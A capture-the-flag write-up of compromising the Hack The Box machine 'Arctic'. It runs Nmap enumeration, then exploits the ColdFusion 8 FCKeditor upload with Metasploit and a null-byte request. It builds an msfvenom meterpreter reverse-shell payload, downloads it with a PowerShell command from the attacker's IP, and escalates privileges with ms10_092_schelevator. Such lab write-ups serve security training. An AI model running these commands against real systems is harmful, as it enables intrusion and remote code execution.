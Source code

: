 # Arctic

This is the write-up for the box Arctic that got retired at the 7th July 2017.
My IP address was 10.10.14.13 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.11    arctic.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/arctic.nmap 10.10.10.11
```

```markdown
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking Port 8500

Browsing to port 8500 gives us an index page with two folders called _CFIDE_ and _cfdocs_.
In the path _CFIDE/administrator/_ we get forwarded to a web page that displays a login prompt for **Adobe Coldfusion 8**.

Looking for vulnerabilities shows an **ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)** for this version of Adobe Coldfusion that has a Metasploit module we are going to use.

```markdown
searchsploit coldfusion
```

In Metasploit we can use the module now:
```markdown
use exploit/windows/http/coldfusion_fckeditor

set RHOSTS 10.10.10.11

set RPORT 8500
```

As the server responds very slowly to requests and the payload does not wait for long, this will fail.
Let us examine why this fails by sending the request through _Burpsuite_.

**Burpsuite**:
Proxy --> Options --> Add Proxy Listener
- Bind to port: 8500
- Bind to address: 127.0.0.1
- Redirect to host: 10.10.10.11
- Redirect to port: 8500

Now we can browse to _localhost:8500_ to execute the Metasploit payload locally and examine the traffic in Burpsuite.
```markdown
set RHOSTS 127.0.0.1
```

The POST request we are sending looks like this:
```markdown
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/G.jsp%00 HTTP/1.1
Host: 127.0.0.1:8500
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Type: multipart/form-data; boundary=_Part_559_3663607441_2109420688
Content-Length: 1588
Connection: close

--_Part_559_3663607441_2109420688
Content-Disposition: form-data; name="newfile"; filename="KCNKUAKE.txt"
Content-Type: application/x-java-archive

(...payload code...)
```

The problem is the **NULL Byte** at the end of the folder (G.jsp%00) that terminates the request before the filename (KCNKUAKE.txt) can be created.
The response is:
```markdown
window.parent.OnUploadCompleted( 0, "/userfiles/file/G.jsp/KCNKUAKE.txt", "KCNKUAKE.txt", "0" );
```

If we manually navigate to the path _10.10.10.11:8500/userfiles/file/G.jsp_ and start a listener on port 4444 we will get a reverse shell if we wait a while.

## Privilege Escalation

Now we have a session on the box with the user _tolis_.
As we still want a Meterpreter session we will create a payload with _Msfvenom_ and upload that to the box.
```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f exe > exploit.exe
```

To execute the payload code we start a web server on our local machine and download it from the box with Powershell:
```markdown
powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.13:8000/exploit.exe','exploit.exe')"
```

After executing this will start a meterpreter session on Metasploit.

Now we can use the _local_exploit_suggester module_ to enumerate for vulnerabilites:
```markdown
use post/multi/recon/local_exploit_suggester
```

Migrate the meterpreter session into a 64-bit process before running the exploit.
We will use the suggested exploit _exploit/windows/local/ms10_092_schelevator_ tp escalate our privileges.
```markdown
use exploit/windows/local/ms10_092_schelevator

set session 1

run
```

When this exploit finishes we get a session back as _NT Authority/SYSTEM_ and finished the box!
